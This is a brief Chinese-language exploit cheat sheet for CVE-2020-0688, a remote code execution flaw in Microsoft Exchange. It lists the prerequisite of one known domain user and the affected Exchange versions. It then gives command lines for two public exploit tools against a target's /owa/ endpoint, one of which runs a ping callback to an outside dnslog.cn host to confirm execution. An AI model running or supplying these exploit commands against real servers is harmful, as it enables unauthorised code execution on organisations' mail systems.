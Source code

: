 # CVE-2020-0688 Exchange RCE


前提：  
已知一个域用户  


影响版本：  
-Microsoft Exchange Server 2010 Service Pack 3 Update Rollup 30  
-Microsoft Exchange Server 2013 Cumulative Update 23  
-Microsoft Exchange Server 2016 Cumulative Update 15  
-Microsoft Exchange Server 2019 Cumulative Update 4  

exp1：
[@Ridter](https://github.com/Ridter/cve-2020-0688)
```
python cve-2020-0688.py -s https://ip/owa/ -u user -p pass -c "ping test.ph4nxq.dnslog.cn"
```
exp2：
[@zcgonvh](https://github.com/zcgonvh/CVE-2020-0688)
```
ExchangeCmd ip user password
```
